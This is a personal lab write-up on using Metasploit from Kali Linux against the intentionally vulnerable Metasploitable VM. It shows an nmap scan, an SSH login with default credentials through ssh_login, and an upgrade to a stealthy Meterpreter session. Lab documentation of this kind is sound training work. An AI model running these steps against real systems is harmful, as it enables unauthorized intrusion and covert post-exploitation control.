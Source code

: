```yaml
---
title: Upgrading to Meterpreter Shell Using Metasploit
permalink: /metasploit1
parent: Pentesting
---
```

# Upgrading to Meterpreter Shell Using Metasploit
{: .no_toc }

{: .note }
Pentesting, Kali Linux, Metasploit, Metasploitable
{: .fs-3 }

#### Contents
{: .no_toc }
- TOC
{:toc}

## Scenario
In this lab, I will establish a remote connection to a vulnerable machine using Metasploit. After gaining access to the machine, I will upgrade the limited shell to a meterpreter shell. Meterpreter operates entirely in memory, making it more stealthy and less likely to be detected by antivirus software.  It also provides a rich command set that allows for advanced post-exploitation activities. This includes commands for interacting with the file system, networking, system, and more.

## Goals & Objectives
1. Use VMWare Workstation Player to run separate instances of Kali Linux and Metasploitable, an intentionally vulnerable virtual machine.
2. Perform an nmap scan on the target machine, detecting open ports and a list of services and their versions.
3. Log in to the target machine using SSH.
4. Upgrade the limited shell to a meterpreter shell.

## Results
### 📄 Task 1: Run Kali Linux and Metasploitable

I download pre-built images for Kali Linux and Metasploitable and run them in VMWare Workstation Player.

![](/assets/images/101_71_metasploit1/step1.png)

<br>
<br>
### 📄 Task 2: Run Metasploit in Kali Linux

![](/assets/images/101_71_metasploit1/step2.png)

<br>
<br>
### 📄 Task 3: Find the IP address of the target machine 

I use ```ifconfig``` to find the IP address of the target machine: 192.168.28.128

![](/assets/images/101_71_metasploit1/step3.png)

<br>
<br>
### 📄 Task 4: Scan the target machine using db_nmap

In Metasploit, I scan the target machine using ```db_nmap -sV 192.168.28.128```. This command stores the results of an nmap scan in Metasploit’s database. This database allows me to keep track of and manage the scan results.

![](/assets/images/101_71_metasploit1/step4.png)

I notice that SSH (secure shell) is running on port 22. SSH is an encrypted network protocol used to remotely interact with an Operating System.

<br>
<br>
### 📄 Task 5: Log in to the target machine using SSH

To log in to the target machine using SSH, I run the following the commands:

```bash
use auxiliary/scanner/ssh/ssh_login
set rhosts 192.168.28.128
set rport 22
set username msfadmin
set password msfadmin
run
```

Note: msfadmin is the default username and password of the Metasploitable VM.

```use auxiliary/scanner/ssh/ssh_login``` allows me to use the ssh_login module to remotely login to the target machine  
```set rhosts``` sets the IP address of the target machine  
```set rport``` specifies the port number  
```set username``` and ```set password``` specifies the login credentials to access the target machine

![](/assets/images/101_71_metasploit1/step5.png)

The ```sessions``` command shows active SSH sessions. Currently, the active session is a limited shell.

<br>
<br>
### 📄 Task 6: Upgrade the limited shell to a meterpreter shell

To upgrade the limited shell to a meterpreter shell, I run the following commands:

```bash
use post/multi/manage/shell_to_meterpreter 
set session 1 
run
```

```use post/multi/manage/shell_to_meterpreter``` allows me to upgrade a shell session to meterpreter shell  
```set session 1``` upgrades the SSH sessions to a meterpreter shell

![](/assets/images/101_71_metasploit1/step6.png)

Running the ```sessions``` command reveals a second session, which is the meterpreter shell.

<br>
<br>
### 📄 Task 7: Switch to the meterpreter shell

To switch to the meterpreter shell, I use the following command: ```session -i 2```.

![](/assets/images/101_71_metasploit1/step7.png)

---

<a href="#top" id="back-to-top">Back to top</a>